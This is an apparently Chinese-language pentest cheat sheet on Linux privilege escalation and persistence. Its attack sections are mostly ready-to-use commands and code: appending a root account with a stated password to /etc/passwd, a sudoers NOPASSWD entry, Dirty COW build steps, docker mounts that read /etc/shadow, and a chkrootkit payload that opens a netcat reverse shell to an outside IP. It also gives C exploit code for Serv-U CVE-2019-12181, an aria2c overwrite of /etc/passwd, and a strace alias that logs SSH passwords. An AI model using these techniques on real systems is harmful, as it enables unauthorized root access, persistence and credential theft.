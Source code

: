 持久化 - Linux
========================================

什么是权限
----------------------------------------
在Linux 系统中， ``ls -al`` 即可查看列出文件所属的权限。这里我用kali系统来演示。

::

	……
	drwxr-xr-x  2 kali kali    4096 Jan 27 12:52 Downloads
	-rw-r--r--  1 root root     903 Jun 14 11:33 exp.html
	-rw-r--r--  1 root root  153600 May  5 09:42 flag
	lrwxrwxrwx  1 kali kali      28 May 14 08:28 flagg -> /proc/self/cwd/flag/flag.jpg
	-rw-r--r--  1 kali kali     188 May 14 08:29 flagg.zip
	-rw-r--r--  1 root root 1807342 Apr 20 06:52 get-pip.py
	drwx------  3 kali kali    4096 Jun 18 21:35 .gnupg
	-rw-r--r--  1 root root      56 Jun 16 23:29 hash.txt
	-rw-r--r--  1 root root   12396 Jun 11 00:13 hydra.restore
	-rw-------  1 kali kali    5202 Jun 18 21:35 .ICEauthority
	-rw-r--r--  1 root root    2046 Jun 10 22:58 jim_pass.txt
	-rwsr-xr-x  1 root root      63736 Jul 27  2018  passwd
	……

::

	例如：
	-rw-r--r--  1 root root      56 Jun 16 23:29 hash.txt

- 第一位
	| ``-`` :代表普通文件
	| ``d`` :代表目录
	| ``l`` :代表软链接
	| ``b`` :代表块文件
	| ``c`` :代表字符设备
- 第二及后面几位,分别三个为一组
	| ``rw-r--r--`` 代表文件所属的权限,r:文件可读。w:文件可修改。-:表示暂时没有其他权限。x:表示可执行
	| ``rw-`` 表示文件所拥有者的权限
	| ``r--`` 表示文件所在组的用户的权限
	| ``r--`` 表示其他组的用户的权限。
	| ``s`` s代表着二进制文件具有SUID权限(假如属主没有执行权限，那么显示的是大S)
- 第二组数据 ``1`` 
	| 如果文件类型为目录，表示目录下的字目录个数
	| 如果文件类型是普通文件，这个数据就表示这个文件的硬链接个数
- 第三组数据 ``root`` ,表示该文件所有者为root用户
- 第四组数据 ``root`` ,表示该文件所在组为root组
- 第五组数据 ``56`` ,表示文件的大小为多少字节。如果为一个目录，则为 ``4096`` 。
- 第六组数据表示最后一次修改时间
- 第七组数据表示文件名称

相关指令
----------------------------------------
- sudo
    - -V 显示版本编号
    - -h 会显示版本编号及指令的使用方式说明
    - -l 显示出自己（执行 sudo 的使用者）的权限
    - -v 因为 sudo 在第一次执行时或是在 N 分钟内没有执行（N 预设为五）会问密码，这个参数是重新做一次确认，如果超过 N 分钟，也会问密码
    - -k 将会强迫使用者在下一次执行 sudo 时问密码（不论有没有超过 N 分钟）
    - -b 将要执行的指令放在背景执行
    - -p prompt 可以更改问密码的提示语，其中 %u 会代换为使用者的帐号名称， %h 会显示主机名称
    - -u username/#uid 不加此参数，代表要以 root 的身份执行指令，而加了此参数，可以以 username 的身份执行指令（#uid 为该 username 的使用者号码）
    - -s 执行环境变数中的 SHELL 所指定的 shell ，或是 /etc/passwd 里所指定的 shell
    - -H 将环境变数中的 HOME （家目录）指定为要变更身份的使用者家目录（如不加 -u 参数就是系统管理者 root ）
    - command 要以系统管理者身份（或以 -u 更改为其他人）执行的指令
	
	::
	
		# sudo -u userb ls -l
		$ sudo -u uggc vi ~www/index.html
		
- su
	- 语法：su [-fmp] [-c command] [-s shell] [--help] [--version] [-] [USER [ARG]] 
	- -f 或--fast不必读启动档（如 csh.cshrc 等），仅用于 csh 或 tcsh
	- -m -p 或 --preserve-environment 执行 su 时不改变环境变数
	- -c command 或 --command=command 变更为帐号为 USER 的使用者并执行指令（command）后再变回原来使用者
	- -s shell 或 --shell=shell 指定要执行的 shell （bash csh tcsh 等），预设值为 /etc/passwd 内的该使用者（USER） shell
	- --help 显示说明文件
	- --version 显示版本资讯
	- --l或--login 这个参数加了之后，就好像是重新 login 为该使用者一样，大部份环境变数（HOME SHELL USER等等）都是以该使用者（USER）为主，并且工作目录也会改变，如果没有指定 USER ，内定是 root
	- USER欲变更的使用者帐号
	- ARG传入新的shell参数
	
	::
	
		su -c ls root

权限提升
----------------------------------------
- linux exploit suggester（kernel<3.4.4）
	+ ``https://github.com/mzet-/linux-exploit-suggester``
	+ ``https://github.com/InteliSecureLabs/Linux_Exploit_Suggester``
- 明文root密码/密码复用
- sudo提权
	::
	
		普通用户一般是无法运行root所有者的命令的，运用sudo可以使普通用户使用root用户的命令。
		但是在一些场景下，管理员为了平常运营方便给sudoer文件配置不当，从而导致权限提升的问题产生。 
		vim /etc/sudoers
		添加：test ALL=(ALL:ALL) NOPASSWD:ALL #test为我们的用户 
		
- 可写入的/etc/passwd文件提权
	- 查询写入权限：ls -al /etc/passwd
	- 写入：echo 'Tom:ad7t5uIalqMws:0:0:User_like_root:/root:/bin/bash' >> /etc/passwd
	- 密码为：Password@973
	- su Tom
	- mkpasswd -m des生成用户密码。
- 脏牛漏洞本地提权
	- 内核版本低于列表里的版本(>=2.6.22)
		::
		
			Centos7 /RHEL7    3.10.0-327.36.3.el7
			Cetnos6/RHEL6     2.6.32-642.6.2.el6
			Ubuntu 16.10         4.8.0-26.28
			Ubuntu 16.04         4.4.0-45.66
			Ubuntu 14.04         3.13.0-100.147
			Debian 8                3.16.36-1+deb8u2
			Debian 7                3.2.82-1
		
	- 编译
		::
		
			git clone https://github.com/gbonacini/CVE-2016-5195.git
			sudo apt-get install g++
			make
		
- 内核漏洞利用
	- 搜索特定系统和内核版本利用漏洞
		- searchsploit linux kernel 3.2 
		- searchsploit centos 7 kernel 3.10
	- 搜索漏洞利用文件路径
		- searchsploit -p 37951.py
- 攻击有root权限的服务
- 通过有SUID属性的可执行文件
	::
	
	
		功用:用户运行某个程序时，如果该程序有SUID权限，那么程序运行为进程时，进程的属主不是发起者，而是程序文件所属的属主。
		作用：只作用于二进制文件中。
		1、只作用在二进制程序文件中（如作用在普通文件中没有任何意义）。
		2、在默认情况下，用户发起一个进程，该进程的属主是发起者，而并非是文件的属主，此时进程是以发起者的身份去运行。
		3、如果给二进制程序文件添加了SUID权限后，用户发起一个进程，该进程的属主为程序文件所属的属主，而并非是发起者。
	
	- ``find / -perm -4000 -ls``
	- ``find / -perm -u=s -type f 2>/dev/null``
	- ``find / -user root -perm -4000 -print 2>/dev/null``
	- ``find / -user root -perm -4000 -exec ls -ldb {} \;``
	- ``常用的提权文件：Nmap,Vim,find,Bash,More,Less,Nano,cp,netcat``
	
	::
	
	
		GTFOBins是Unix二进制文件的精选列表,可用于绕过配置错误的系统中的本地安全限制。
		可用于查询suid权限的文件是否能够越权。
		https://gtfobins.github.io
		
- 利用可用的root权限
    - ``sudo -l``
	::
	
	
		[root@localhost ~]# su - tom    ##切换用户
		[tom@localhost ~]$ sudo -l    ##查看此用户拥有的特殊权限
		We trust you have received the usual lecture from the local System
		Administrator. It usually boils down to these three things:
			#1) Respect the privacy of others.
			#2) Think before you type.
			#3) With great power comes great responsibility.
		[sudo] password for tom:     ##这里需要验证密码，以保证是用户本人执行操作
		Matching Defaults entries for tom on this host:
			requiretty, !visiblepw, always_set_home, env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE
			INPUTRC KDEDIR LS_COLORS", env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
			env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY
			LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS
			_XKB_CHARSET XAUTHORITY", secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin
		User tom may run the following commands on this host:
			(root) /usr/sbin/useradd    ##可以以root身份，使用useradd命令
			
		[tom@localhost ~]$ sudo /usr/sbin/useradd test1    ##添加用户test1
		[tom@localhost ~]$ tail -1 /etc/passwd
		test1:x:501:501::/home/test1:/bin/bash        ##添加成功
- crontab计划任务
	- 查看计划任务
		::
		
			cat /etc/crontab
			SHELL=/bin/sh
			PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

			# Example of job definition:
			# .---------------- minute (0 - 59)
			# |  .------------- hour (0 - 23)
			# |  |  .---------- day of month (1 - 31)
			# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
			# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
			# |  |  |  |  |
			# *  *  *  *  * user-name command to be executed
			17 *  * * *     root    cd / && run-parts --report /etc/cron.hourly
			25 6  * * *     root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
			47 6  * * 7     root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
			52 6  1 * *     root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
			
			四种标识符含义：
			，	间隔多久
			-	连续多久
			/	每隔多久
			*	所有时间
			
			实例1：每月1、10、22日的4:45重启network服务
			45 4 1,10,22 * * /usr/bin/systemctl restart network
			实例2：每周六、周日的1:10重启network服务
			10 1 * * 6,7 /usr/bin/systemctl restart network
			实例3：每天18:00至23:00之间每隔30分钟重启network服务
			*/30 18-23 * * * /usr/bin/systemctl restart network
			实例4：每隔两天的上午8点到11点的第3和第15分钟执行一次重启
			3,15 8-11 */2 * * /usr/sbin/reboot
			实例5：每周日凌晨2点30分，运行cp命令对/etc/fstab文件进行备份，存储位置为/backup/fstab-YYYY-MM-DD-hh-mm-ss；
			30 2 * * 7 /usr/bin/cp /etc/fstab /tmp/fstab-`date “+\%F_\%T”`
			实例6：一月一号的4点重启smb
			0 4 1 1 * /usr/bin/systemctl restart smb   #4点钟只执行一次命令，正确答案;
			* 4 1 1 * /usr/bin/systemctl restart smb   #四点到五点执行了60次命令，错误答案：
			实例7：晚上11点到早上7点之间，每隔一小时重启smb
			0 23-0/1,1-7/1 * * * /usr/bin/systemctl restart smb
			0 23,0,1,2,3,4,5,6,7  * * * /usr/bin/systemctl restart smb
			实例8：每一小时重启smb
			0 * * * * /usr/bin/systemctl restart smb


- docker用户组提权
	::
	
		id
		uid=1001(selena) gid=1001(selena) groups=1001(selena),115(docker)
		#根据上面的id命令执行的结果，发现selena是docker组的，于是使用docker提权
		
    - docker images命令查看已经存在的镜像,没有的话就pull一个
		- docker pull alpine
    - 挂载宿主机目录到docker镜像内	 
	 ::
	 
		# docker run -v /:/mnt  -it alpine
		# docker run -v /etc/:/mnt -it alpinecd /mntcat shadow
		# docker run -it -v /宿主机目录:/容器目录 镜像名 /bin/bash
		-i: 以交互模式运行容器，通常与 -t 同时使用；
		-t: 为容器重新分配一个伪输入终端，通常与 -i 同时使用；
		
	- 也可以在宿主机/etc/passwd中添加特权用户
- 第三方组件提权
	- chkrootkit(<=0.49)
		- msf:unix/local/chkrootkit
		- 写入/tmp/update
		
		::
		
			用一个普通用户在/tmp文件夹下新建一个可执行文件update，然后运行带漏洞的chkrootkit，
			那么这个文件会被以root的身份执行。
			运行chkrootkit
			方法一：searchsploit -p 33899
			echo "/usr/bin/nc -e /bin/sh 192.168.43.154 4444" > /tmp/update
			chmod +777 /tmp/update
			方法二：echo 'echo "root:123456" | sudo chpasswd' > /tmp/update
			chmod 777 /tmp/update
			su - root
			
	- tmux
		+ 运行pspy64发现tmux以root权限运行
			|tmux2|
		+ tmux进程
			|tmux1|
		+ 提权
			::
			
				export TERM=xterm
				tmux -S /opt/.tmux-0/sockets/default attach
				
			|tmux3|	
		
- 其它
	- https://github.com/SecWiki/linux-kernel-exploits
	- Serv-U提权
		::
		
			Serv-U FTP Server < 15.1.7 - Local Privilege Escalation (1)
			CVE编号为CVE-2019-12181
			
			#include <stdio.h>
			#include <unistd.h>
			#include <errno.h>

			int main()
			{       
				char *vuln_args[] = {"\" ; id; echo 'opening root shell' ; /bin/sh; \"", "-prepareinstallation", NULL};
				int ret_val = execv("/usr/local/Serv-U/Serv-U", vuln_args);
				// if execv is successful, we won't reach here
				printf("ret val: %d errno: %d\n", ret_val, errno);
				return errno;
			}
	
	- aria2c
		::
		
			前提是具有SUID权限。
			#Copy /etc/passwd by read as a root
			/usr/bin/aria2c -i /etc/passwd
			
			#Add user with root rigts in the file
			Tom:ad7t5uIalqMws:0:0:User_like_root:/root:/bin/bash
			
			#Upload it inside /etc (must be in /etc directory)
			/usr/bin/aria2c -o passwd "http://<ip>/newpasswd" --allow-overwrite=true
			
			#Get the shell! (Pass : Password@973)
			su Tom
			
			
持久化
----------------------------------------
- 反弹shell
- suid shell
- icmp后门
- sshd wrapper
- sshd软链接后门
- port knocking
- pam后门
- webshell
- rootkit
- strace 后门
    - ``alias ssh='strace -o /tmp/.ssh.log -e read,write,connect -s 2048 ssh'``
	
.. |tmux1| image:: ../images/tmux1.png
.. |tmux2| image:: ../images/tmux2.png
.. |tmux3| image:: ../images/tmux3.png